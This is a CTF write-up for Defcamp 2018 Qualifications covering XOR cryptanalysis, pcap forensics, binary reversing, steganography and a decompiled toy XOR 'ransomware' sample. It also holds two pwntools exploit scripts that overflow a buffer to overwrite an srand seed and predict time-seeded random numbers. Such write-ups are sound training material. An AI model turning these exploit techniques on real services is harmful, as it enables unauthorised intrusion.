


# Defcamp CTF 2018 Qualifications, 22 September.

As a warmup I first tried some junior challenges

# XORnigma
### Junior: 1p

[xornigma.py](https://dctf.def.camp/dctf-18-quals-81249812/xornigma.py)

Script does multi-byte xor between cleartext and a key. Ciphertext given as:
```
000000003f2537257777312725266c24207062777027307574706672217a67747374642577263077777a3725762067747173377326716371272165722122677522746327743e
```
I saved the hex-string to file.hex and:
```
cat file.hex | xxd -r -ps > file.bin
```
First I triet to count coincidences to get the key length. But that failed because the
ciphertext was too short. Then I noticed the first 4 bytes are 0 in the ciphertext which
might mean the key is 4 bytes. The flag format of the competition was DCTF{hash} and DCTF
is 4 bytes so my first guess was that and it was correct.
```bash
echo -n DCTF > key.txt
xorfiles file.bin key.txt
DCTF{fcc34eaae8bd3614dd30324e932770c3ed139cc2c3250c5b277cb14ea33f77a0}
```
Xorfiles is from here: [misc-tools](https://github.com/AlbertVeli/misc-tools) but
you can just as easy write your own in python.

# Sniff
### Junior: 1p

[Sniff.pcap](https://dctf.def.camp/dctf-18-quals-81249812/Sniff.pcap)

Open pcap in wireshark and Export HTTP Objects.



There are a lot of jpg-images named image\_part\_\<number\>.jpg.
I examined them but the flag was not there. Instead the flag was in the
image files named only \<number\>.jpg. Append them horizontally:
```bash
convert 0*.jpg +append one.jpg
```

That gives one image with dimensions 900x64 where the flag is
already visible. But it looks like three parts. To recreate the
original image, split and append the three parts vertically:
```bash
convert one.jpg -crop 300x c%02d.jpg
convert c*.jpg -append dog.jpg
```

# SimplePass
### Junior: 1p

[SimplePass](https://dctf.def.camp/dctf-18-quals-81249812/SimplePass)

A 64-bit Linux ELF binary that looks like it was written in C++. This is harder
to debug than a normal binary. Decompilation is also harder than usual so I
used only debug. First I checked which library- and syscalls were made:
```
ltrace -C -S -o ltrace.log ./SimplePass
Password?
5
```
I does some C++ calls (mangled, but ltrace can demangle them with -C) which
ends up in a syscall SYS\_write(1, "Password?\n", 10) followed by SYS\_read(0, "5\n", 1024).
5 is the number I entered.

Strings showed an interesting line:
```
DONE! The flag is DCTF{sha256(your_number)}
```
So it appears if we enter the correct number it will print that string.
```
gdb SimplePass
```
It calls the \_Z9Fibonacci function multiple times after asking for the password
number (using a mangled C++ function which is too long to even write here). After
the last call it does:
```
0x5555555556fc <main+198>:   imul   eax,ebx
```
and eax is 0xea2af230 after that. Then it calls \_ZNSt7\_\_cxx119to\_stringEi using that
number as argument and it returns the string "-366284240" (signed int of the hex number).
And a bit down a compare and a jump. Just to verify the number:
```bash
python2 -c "print -0x100000000 + 0xea2af230"
-366284240
```
And try to enter that number:
```
Password?
-366284240
DONE! The flag is DCTF{sha256(your_number)}!
```

# EagleEye
### Junior: 1p


Here I used [Stegsolve.jar](http://www.caesum.com/handbook/Stegsolve.jar)
to examine the bitplanes in the image. The flag was in Blue plane 0 (least
significant bit in the blue value of r,g,b pixels).

# Ransomware
### Reverse: 50p

[ransomware.zip](https://dctf.def.camp/dctf-18-quals-81249812/ransomware.zip)

The zip contains an .exe file and a .pyc file. The .pyc can be decompiled using uncompyle6:
```python
# uncompyle6 version 3.2.3
# Python bytecode 2.7 (62211)
# Decompiled from: Python 3.7.0 (default, Jun 29 2018, 20:13:13)
# [Clang 9.1.0 (clang-902.0.39.2)]
# Embedded file name: ransomware.py
# Compiled at: 2018-09-04 15:35:11
import string
from random import *
import itertools

def caesar_cipher(buf, password):
    password = password * (len(buf) / len(password) + 1)
    return ('').join((chr(ord(aa) ^ ord(bb)) for aa, bb in itertools.izip(buf, password)))

f = open('./FlagDCTF.pdf', 'r')
buf = f.read()
f.close()
allchar = string.ascii_letters + string.punctuation + string.digits
password = ('').join((choice(allchar) for OOO0OO0OO00OO0000 in range(randint(60, 60))))
buf = caesar_cipher(buf, password)
f = open('./youfool!.exe', 'w')
buf = f.write(buf)
f.close()
# okay decompiling dctf/ransomware/ransomware.pyc
```
This was a bit more obfuscated but I replaced some strings to make it more readable.
The password is 60 chars long randomly selected from allchars and caesar\_cipher does
an xor between the cleartext and the password (repeated) to create the ciphertext. Now,
because the ciphertext (the .exe file) is so long statistics can be used. Counting coincidences (from my misc-tools repo) confirms the key length is 60, or a multiple of 60.

Now there is no way to recreate the key from the code. But since the ciphertext is so long statistics can be used to recreate it. First, the code suggests the cleartext is a PDF-file. I examined a number of PDF-files and found the most common character is mostly 32 (ascii space). Sometimes 0. But I went with 32 here. Then I wrote a script to try to xor every 60:th character of the ciphertext with a candidate from allchars and return the candidate that generated most 32:s. Then I repeated this for all 60 offsets.
```python
import sys

allchar = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~0123456789'

with open('youfool!.exe', 'rb') as f:
    buf = f.read()

def count(offset, ci):
    i = offset
    l = len(buf)
    chars = {}
    tot = 0
    while i < l:
        n = buf[i] ^ ci
        if n in chars:
            chars[n] += 1
        else:
            chars[n] = 1
        tot += 1
        i += 60
    s = sorted(chars.items(), key=lambda x: x[1], reverse = True)
    return (s[0], s[1])

key = [' '] * 60
for offset in range(60):
    for c in allchar:
        r1, r2 = count(offset, ord(c))
        if r1[0] == 32:
            key[offset] = c
print(''.join(key))
```
Now the output didn't recreate the whole key, there are three spaces. I filled in those manually by comparing the first 60-bytes of xored output with known PDF-files and filled in the blanks. Then in the second 60-byte block there was a long row of 0x20 bytes, with 2 places sticking out with other values. I adjusted the key to get 0x20 there too and finally got the key:
```
cat key.txt
:P-@uSL"Y1K$[X)fg[|".45Yq9i>eV)<0C:('q4nP[hGd/EeX+E7,2O"+:[2
xorfiles youfool\!.exe key.txt > flag.pdf
```


# Lucky?
### Exploit: 50p

[lucky](https://dctf.def.camp/dctf-18-quals-81249812/lucky)

Similar to SimplePass. I started to dump the library and syscalls with ltrace
while it was running:
```
Hello, there!

What is your name?
A
I am glad to know you, A!
If you guess the next 100 random numbers I shall give you the flag!

What number am I thinking of? [0/100]
5
Wow that is wrong!
```
Now gdb crashed when I tried to start debugging, I think it is because there is no main function. But early on it calls srand() so I did:
```
gdb lucky
break srand
run
```
That worked. It calls srand(), asks for name, calls strcpy(), then calls srand() again and then loops 100 times asking for a number. The correct number is generated by a call to rand(). The seed for srand() is taken from /dev/urandom. But we can overwrite the seed by overflowing the buffer for name. After experimenting a while with the length (and using gdb-peda to search the stack for my input and the seed) I finally got it to work. Python has this handy ctypes thing that can be used to call libc-functions directly from python. In this case srand() and rand().
```python
#!/usr/bin/env python2

from ctypes import *
from pwn import *
context.arch='amd64'

# I found this length using gdb
name = 'A' * 0x2c0

libc = cdll.LoadLibrary('libc.so.6')
libc.srand(0x41414141)

p = process('./lucky')
#p = remote('167.99.143.206', 65031)
p.recvuntil('What is your name?')
p.sendline(name)

for n in range(100):
    print p.recvuntil('/100]')
    i = libc.rand()
    p.sendline(str(i))

print p.recvall()
p.close()
```

# Even more lucky?
### Exploit: 50p

[lucky2](https://dctf.def.camp/dctf-18-quals-81249812/lucky2)

Very similar to the previous lucky, but this time it calls time(NULL) / 10
to seed srand(). No overwrite needed. We just need to have the same time as
the server (I used NTP to set my time).

```python
#!/usr/bin/env python2

from ctypes import *
from pwn import *
context.arch='amd64'

name = 'albert'

libc = cdll.LoadLibrary('libc.so.6')
t = libc.time(None) // 10
libc.srand(t)

p = process('./lucky2')
#p = remote('167.99.143.206', 65032)
p.recvuntil('What is your name?')
p.sendline(name)

for n in range(100):
    print p.recvuntil('/100]')
    i = libc.rand()
    p.sendline(str(i))

print p.recvall()
p.close()
```

# Voices
### Misc: 281p

[voices.wav](https://dctf.def.camp/dctf-18-quals-81249812/voices.wav)

I tried noise reduction in Audacity without success. Then I looked
at the spectogram using [Sonic Visualiser](https://www.sonicvisualiser.org/).
The spectogram contained a pattern which I saved to an image and edited
to black/white in gimp.

In the image above each dot is 42x40 pixels and there are 280x4 dots.
Unfortunately I didn't manage to decode the dots from the image. I tried
to rearrange them in various ways to get a QR-code or text. And I tried
treating them as bits. No success.

